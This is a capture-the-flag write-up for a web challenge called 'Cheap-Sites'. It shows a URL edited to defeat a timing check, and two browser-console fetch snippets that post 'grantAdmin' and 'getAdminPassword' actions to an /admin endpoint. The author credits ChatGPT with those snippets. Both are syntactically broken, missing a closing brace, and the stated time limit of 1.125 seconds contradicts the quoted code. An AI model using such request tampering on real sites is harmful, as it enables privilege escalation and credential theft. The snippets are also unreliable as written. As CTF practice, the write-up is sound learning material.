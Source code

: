# Cheap-Sites Solution

Date: October 6, 2025

### Steps

#### Flag 1

- Clicked on the Reserve Button
- Solved the Math Prompt and Got the Pop Up
- With the Given server.js, I Found This Line of Code
    - `if (time > 0.125) {`
    - So, the Math Problem Need to be Solved Under 1.125 Seconds
- Inspected the Site and Went to the Network Tab
- Header -> General -> Request URL
- Copied the Request URL and Pasted into a New Tab
- Edit the URL to: https://cheap-sites.ctf-league.damsec.org/reserve?time=0.1&room=101
    - time is set to 0.1
- Got the Key: `osu{fa5t3r_th4n_ai}`

#### Flag 2

- Got Flag 2 With Help of Using ChatGPT. Gave ChatGPT the Context of the CTF Activity and Code That Was Given

```
(async () => {
    const body = { action: 'grantAdmin', user: 'attacker', env: 'FLAG_3' };
    const r = await fetch('/admin', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify(body)
    );
  console.log(await r.text());
})();
```

#### Flag 3

- Similarly With Flag 2, I Had Asked ChatGPT to Find Flag 3 For Me

```
(async () => {
    const body = { action: 'getAdminPassword', type: 'email' };
    const r = await fetch('/admin', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify(body)
    );
    console.log(await r.text());
})();
```